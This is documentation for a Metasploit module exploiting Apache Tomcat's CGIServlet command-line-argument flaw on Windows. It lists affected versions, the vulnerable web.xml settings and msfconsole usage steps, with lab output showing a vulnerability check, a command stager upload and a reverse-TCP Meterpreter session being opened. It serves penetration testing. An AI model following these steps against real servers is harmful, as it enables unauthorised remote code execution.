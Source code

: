 ## Description

This module exploits a vulnerability in Apache Tomcat's CGIServlet component. When the enableCmdLineArguments setting is set to true, a remote user can abuse this to execute system commands, and gain remote code execution.

## Vulnerable Application

The following versions of Apache Tomcat on Windows are effected:

* 9.0.0.M1 to 9.0.17
* 8.5.0 to 8.5.39
* 7.0.0 to 7.0.93

Also, the machine needs to enable the enableCmdLineArguments option in web.xml. For example:

```xml
<servlet>
<servlet-name>cgi</servlet-name>
<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
<init-param>
  <param-name>cgiPathPrefix</param-name>
  <param-value>WEB-INF/cgi</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
<init-param>
  <param-name>enableCmdLineArguments</param-name>
  <param-value>true</param-value>
</init-param>
<load-on-startup>5</load-on-startup>
</servlet>
```

Also:

```xml
<servlet-mapping>
<servlet-name>cgi</servlet-name>
<url-pattern>/cgi/*</url-pattern>
</servlet-mapping>
```

Finally, a script needs to be available in the webapps\ROOT\WEB-INF\cgi directory. For example:

```
@echo off
echo Content-Type: text/plain
echo.
echo Hello, World!
```

## Verification Steps

1. Start msfconsole
2. Do: `use windows/http/tomcat_cgi_cmdlineargs`
3. Configure rhosts
4. Configure TARGETURI
5. Set a payload
6. Run the module, you should get a session.

## Scenarios

### Check Method

The check method of the exploit explicitly triggers the bug to verify the vulnerable, therefore it should be accurate. To use it, here is an example:

```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > check
[+] 172.16.135.141:8080 - The target is vulnerable.
```

### Code Execution

```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Checking if 172.16.135.141 is vulnerable
[*] 172.16.135.141 seems vulnerable, what a good day.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (179779 bytes) to 172.16.135.141
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.141:51982) at 2019-06-18 15:26:54 -0500
[*] Command Stager progress - 100.02% done (100692/100668 bytes)

meterpreter > 
[!] Make sure to manually cleanup the exe enerated by the exploit
```


